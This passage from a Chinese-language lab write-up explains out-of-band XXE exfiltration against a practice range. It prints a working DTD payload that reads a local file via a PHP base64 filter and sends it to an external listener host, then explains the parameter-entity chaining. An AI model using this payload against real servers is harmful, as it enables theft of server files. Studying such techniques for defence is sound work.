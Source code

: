 然后修改我们的DTD：

```TEXT
<!ENTITY % file SYSTEM "php://filter/convert.b ase64-encode/resource=D:/flag.txt">
<!ENTITY % remote "<!ENTITY &#37; send SYSTEM 'http://cp4brx.ceye.io/?data=%file;'>">
%remote;
%send;
```

`%`是对参数实体的声明，声明后就可以在后续引用参数实体。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-80bed32fcfe7a5660844059e79b051ec650e2d0e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-80bed32fcfe7a5660844059e79b051ec650e2d0e.png)  
说说个人理解，首先将文件读取的内容赋给`file`，然后`remote`是一个定义参数实体的字符串，其中`%`需要用实体编码`%#37;`替代避免影响语义，后面使用`%file;`引用`file`的内容拼接出完整的请求url，接着引用`%remote;`，这样就是定义了`send`，然后再引用`%send;`，就会向监听服务器发起请求。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dceaa53e0bd6124780aea17b8f58d6db69ea6313.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dceaa53e0bd6124780aea17b8f58d6db69ea6313.png)  
发包后就可以从请求中看到外带的数据了。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2eda242c6d2032b964fbdf2ac75123031a2713fe.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2eda242c6d2032b964fbdf2ac75123031a2713fe.png)

后记
==

本篇已经是终篇了，整个靶场的学习到此也就完结了。虽然是基础的靶场，但是收获还是挺多的。当我静下心去研究时，才发现原来有很多细节其实我从来都没弄懂过。所以如果能去掉浮躁的心，不再蜻蜓点水一般，而是认真深入的学习，也许会有很意外的收获。